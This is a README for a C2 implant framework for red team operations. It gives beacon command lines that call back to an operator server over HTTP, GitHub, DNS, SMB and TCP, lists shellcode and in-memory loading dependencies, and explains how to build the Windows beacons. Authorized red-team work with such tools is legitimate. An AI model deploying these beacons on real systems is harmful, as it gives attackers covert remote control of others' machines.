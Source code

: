 # Exploration C2 Implant

## Overview

**Exploration** is a lightweight, modular Command and Control (C2) framework designed for red team operations. This repository provides the **Beacon** component implemented in C++ for targeting Windows systems. The corresponding TeamServer and Client components are available in the [C2TeamServer](https://github.com/maxDcb/C2TeamServer) repository.

This project includes multiple Beacons capable of communicating with the TeamServer through a variety of channels. Supported communication methods include HTTP/HTTPS, GitHub, DNS, SMB, and TCP.

## Communication Examples

```bash
# HTTP/HTTPS
BeaconHttp.exe <TEAMSERVER_IP> <LISTENER_PORT> <http|https>
BeaconHttp.exe 10.10.10.10 8443 https
BeaconHttp.exe 10.10.10.10 8080 http

# GitHub
BeaconGithub.exe <GITHUB_USER/REPO> <ACCESS_TOKEN>
BeaconGithub.exe maxDcb/C2Implant ghp_dsfgdfhdf5554456g4fdg465...

# DNS
BeaconDns.exe <DNS_SERVER> <TEAMSERVER_DOMAIN>
BeaconDns.exe 8.8.8.8 bac.superdomain.com

# SMB
BeaconSmb.exe <LISTENER_IP> <PIPE_NAME>
BeaconSmb.exe 127.0.0.1 pipename

# TCP
BeaconTcp.exe <LISTENER_IP> <LISTENER_PORT>
BeaconTcp.exe 127.0.0.1 4444
```

## Build Instructions

### Submodules & External Dependencies

This project relies on several third-party libraries and tools:

* [Donut](https://github.com/TheWover/donut): Generates shellcode from PE files.
* [COFFLoader](https://github.com/trustedsec/COFFLoader): Executes object files such as those in [CS-Situational-Awareness-BOF](https://github.com/trustedsec/CS-Situational-Awareness-BOF).
* [MemoryModule](https://github.com/fancycode/MemoryModule): Enables runtime DLL loading.
* [UnmanagedPowerShell](https://github.com/leechristensen/UnmanagedPowerShell): Executes PowerShell from unmanaged code.
* [cpp-base64](https://github.com/ReneNyffenegger/cpp-base64): Base64 encoding/decoding.
* [nlohmann/json](https://github.com/nlohmann/json): JSON parsing.

### Preparing the Environment

Install prerequisites:

* [Chocolatey](https://chocolatey.org/install)
* CMake:

```bash
choco install cmake --pre
```

Initialize submodules and set up the build directory:

```bash
git submodule update --init
mkdir buildWindows
cd buildWindows
```

### Building the Windows Beacons and Modules

#### Windows x64

Using the "x64 Native Tools Command Prompt for VS":

```bash
cmake -G "Visual Studio 17 2022" ..

msbuild .\C2Implant.sln /property:Configuration=Release -m
```

Alternatively, open the generated `C2Implant.sln` in Visual Studio and build in **Release** mode. Ensure the Runtime Library is set to **Multi-threaded (/MT)**.

Project can also be build with the C2Core package:

```bash
# download last windows package

set "CMAKE_PREFIX_PATH=path_to_C2Core-Windows" 

cmake -G "Visual Studio 17 2022" ..

msbuild .\C2Implant.sln /property:Configuration=Release -m

```

#### Windows x86

```bash
cmake -G "Visual Studio 17 2022" -A "Win32" ..
msbuild .\C2Implant.sln /property:Configuration=Release /p:Platform=Win32 -m
```

### Output Locations

* Compiled Beacons: `Release\Beacons`
* Compiled Module DLLs: `Release\Modules`
